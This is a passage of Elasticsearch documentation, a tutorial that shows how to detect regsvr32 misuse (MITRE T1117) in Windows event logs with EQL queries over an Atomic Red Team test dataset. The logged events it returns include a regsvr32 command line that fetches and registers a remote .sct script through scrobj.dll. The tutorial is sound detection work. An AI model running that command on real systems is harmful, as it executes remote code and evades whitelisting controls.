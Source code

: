 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

experimental::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1117/[regsvr32 misuse] in Windows event
logs ingested using {winlogbeat-ref}/index.html[Winlogbeat]. Regsvr32 misuse is
a known adversary technique documented in the https://attack.mitre.org[MITRE
ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for regsvr32 misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to the {ecs-ref}[Elastic Common Schema (ECS)]. The
dataset includes events that imitate behaviors related to regsvr32 misuse, as
documented by MITRE ATT&CK®.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into the `my-index-000001` index with the following
<<docs-bulk,bulk API>> request:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-index-000001/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the dataset was indexed
successfully.
+
[source,console]
----
GET /_cat/indices/my-index-000001?v&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]

The API returns the following response. The `docs.count` value should show `150`
documents were indexed.

[source,txt]
----
health status index     docs.count
yellow open   my-index-000001         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32.exe` events

Since you're looking for `regsvr32` misuse, start by getting a count of events
using `regsvr32.exe`.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /my-index-000001/_eql/search?filter_path=-hits.events  <1>
{
  "query": """
    any where process.name == "regsvr32.exe"        <2>
  """,
  "size": 150                                       <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 150 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Your previous query matched 143 events. Many of these events are likely to be
false positives.

To narrow down the results, check if the command line was used during any of
these events. Append `and process.command_line > 0` to the previous EQL query.
This limits matching results to events that contain a `process.command_line`
value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    any where process.name == "regsvr32.exe" and process.command_line > 0
  """,
  "size": 150
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one event. Based on the event's `process.command_line` value,
`regsvr32.exe` was used to register a script as `scrobj.dll`. This fits known
regsvr32 misuse behavior.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that `regsvr32.exe` was used to register
a potentially malicious script as `scrob.dll`. Next, find any processes that
later load the `scrob.dll` file.

Modify the previous EQL query as follows:

* Change the `any` keyword to `file`. This means the query only matches
events with an `event.category` of `file`.
* Add the `file.name == "scrobj.dll` condition to check for loads of
the `scrobj.dll` file.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    file where process.name == "regsvr32.exe" and file.name == "scrobj.dll"
  """,
  "size": 150
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming that `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "file": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "@timestamp": 131883573237450016,
          "event": {
            "category": "file"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to download other remote files. If
this occurred, the attack progressed and might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` file
. Any network event, which could indicate the download of a remote file

To match, each event in the sequence must share the same `process.pid` (process
ID) field value.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == 'regsvr32.exe']
      [file where file.name == 'scrobj.dll']
      [network where true]
  """,
  "size": 150
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          "2012"
        ],
        "events": [
          {
            "_index": "my-index-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 1,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 7,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "file": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "@timestamp": 131883573237450016,
              "event": {
                "category": "file"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_version": 1,
            "_seq_no": 29,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "network": {
                "direction": "outbound",
                "protocol": "tcp"
              },
              "@timestamp": 131883573238680000,
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_seq_no": 1/"_seq_no": $body.hits.sequences.0.events.0._seq_no/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_seq_no": 7/"_seq_no": $body.hits.sequences.0.events.1._seq_no/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
// TESTRESPONSE[s/"_seq_no": 29/"_seq_no": $body.hits.sequences.0.events.2._seq_no/]
